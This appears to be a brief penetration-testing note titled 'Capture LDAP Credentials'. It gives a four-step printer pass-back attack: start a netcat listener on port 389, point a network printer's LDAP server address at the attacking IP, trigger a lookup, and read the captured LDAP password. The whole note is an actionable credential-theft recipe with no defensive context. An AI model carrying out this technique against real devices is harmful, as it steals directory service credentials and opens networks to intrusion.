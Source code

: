 # Capture LDAP Credentials

## Requirements:

### Have access to a web interface of a network printer that queries LDAP to search for user list.

### Steps:

 - sudo nc -lvnp 389

 - Change Server Address to point our attacking IP

 - Press button for the printer to send data

 - Check our nc terminal (We captured the LDAP password)
